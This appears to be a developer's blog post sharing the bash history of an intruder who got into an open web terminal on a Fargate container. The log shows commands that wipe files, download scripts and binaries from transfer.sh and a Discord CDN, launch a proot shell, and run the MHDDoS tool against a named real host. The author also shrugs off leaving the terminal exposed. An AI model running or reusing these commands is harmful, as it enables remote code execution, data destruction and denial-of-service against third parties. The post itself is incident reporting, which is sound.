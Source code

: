 ## Bash history of a hack attempt in one of my Fargate services

Yesterday I checked the bash history for an open [web terminal](http://github.com/yudai/gotty)
I left behind in one of the Fargate services I set up, and noticed a hack attempt.
Below you'll find the set of commands the attacker used. Typos and the constant
use of `clear` makes me think this isn't a pro, but it's still interseting to
see what he/she attempted.
 
```
   31  ls
   32  rm -rf *
   33  ls
   34  sudo
   35  ls
   36  sudo apt update
   37  clear
   38  ls
   39  screen -ls
   40  clear
   41  cd
   42  tmux
   43  clear
   44  ls
   45  cd /
   46  ls
   47  cd
   48  clear
   49  ulimit -n 999999
   50  clear
   51  wget
   52  curl
   53  docker
   54  udocker
   55  pip3
   56  curl https://cdn.discordapp.com/attachments/853535040250970113/878590395611775016/yt.zip --output yt.zip
   57  screen -ls
   58  ls
   59  clear
   60  unzip yt.zip
   61  pk
   62  apk update
   63  apt
   64  apt update
   65  clear
   66  tar
   67  rm -rf *
   68  clear
   69  ls
   70  clear
   71  curl https://transfer.sh/rvpSpC/root.sh --output root.sh
   72  ls
   73  curl https://transfer.sh/A2mYNo/root.tar.xz --output root.tar.xz
   74  mkdir dist
   75  ls
   76  cd dist
   77  curl https://transfer.sh/1e30zd/proot --output proot
   78  curl https://transfer.sh/9btpPw/proot.md5sum --output proot.md5sum
   79  curl https://transfer.sh/6wqMgI/proot.sha256sum --output proot.sha256sum
   80  clear
   81  cd
   82  ls
   83  tar -xvf root.tar.xz
   84  clear
   85  ./dist/proot -S . /bin/bash
   86  chmod +x ./dist/proot
   87  ./dist
   88  ./dist/proot -S . /bin/bash
   89  ls
   90  rm -rf root.sh
   91  m -rf root.tar.xz
   92  rm -rf root.tar.xz
   93  ls
   94  cd
   95  ls
   96  clear
   97  cd /
   98  ls
   99  cd
  100  ls
  101  cd dist
  102  ls
  103  rm -rf *
  104  cd /
  105  rm -rf dist
  106  clear
  107  ls
  108  cd
  109  pip3 install udocker
  110  udocker install
  111  pip3 remove udocker
  112  pip3 uninstall udocker
  113  clear
  114  curl https://github.com/indigo-dc/udocker/releases/download/v1.3.1/udocker-1.3.1.tar.gz --output udocker-1.3.1.tar.gz
  115  ls
  116  cd
  117  ls
  118  tar zxvf udocker-1.3.1.tar.gz
  119  ls
  120  clear
  121  curl https://transfer.sh/ce6sc1/udocker.tar.gz --output udocker.tar.gz
  122  tar -xvf udocker.tar.gz
  123  ls
  124  rm -rf udocker*
  125  ls
  126  clear
  127  ls
  128  git
  129  git clone https://github.com/MHProDev/MHDDoS
  130  cd MHDDoS
  131  ls
  132  pip3 install -r requirements.txt
  133  cdlls
  134  cd
  135  ls
  136  cd MHDDoS
  137  ls
  138  cd
  139  ls
  140  cd MHDDoS
  141  python3 start.py get https://host.applelife.ru/ 1 1000 http.txt 1000 9999999999999999999999999999
  142  history
```

I don't recomment visiting these URLs, or trying these commands on your system.
However, <https://github.com/MHProDev/MHDDoS> is safe. It's a DDOS Attack script
implemented in Python. The attaker was able to install it, and used it to DDOS
`https://host.applelife.ru/`.

After noticing it, I removed the configuration that enables the web terminal and
restarted the service to get back to a healthy/safe state.

FWIW, I know that leaving an open web terminal isn't safe. This is not the first
time I got an intruder there, but the previous one just poked around and didn't
attempt anything nefarious. Anyway, YOLO - these web terminals are pretty
convenient. And since there's very little an attacker can do in the running
container, I feel the risk is manageable.

